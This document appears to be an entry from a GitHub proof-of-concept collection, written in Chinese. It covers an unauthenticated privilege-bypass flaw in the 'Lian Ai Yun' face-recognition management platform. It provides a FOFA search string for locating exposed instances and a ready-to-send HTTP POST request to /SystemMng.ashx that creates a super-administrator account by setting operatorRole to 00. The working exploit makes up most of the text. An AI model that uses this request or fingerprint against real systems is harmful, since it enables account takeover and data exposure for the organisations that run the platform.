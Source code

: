 ## 脸爱云 一脸通智慧管理平台任意用户添加漏洞

脸爱云一脸通智慧管理平台是一套功能强大,运行稳定、操作简单方便、用户界面美观,轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。该管理平台/SystemMng.ashx接口处存在权限绕过漏洞,可通过输入00操纵参数operatorRole，导致特权管理不当，未经身份认证攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管。


## fofa
```
"欢迎使用脸爱云 一脸通智慧管理平台"
```

## poc
```
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/top.html
Connection: close
Cookie: ASP.NET_SessionId=whnrkuaqbz0lyv1fbwtzf23y
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

operatorName=test1&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```
![image](https://github.com/wy876/POC/assets/139549762/8ae7871e-8eed-4986-a9f8-ad4168b15e2d)

![image](https://github.com/wy876/POC/assets/139549762/ab201a23-b27a-40d5-9f80-46e1218f238c)
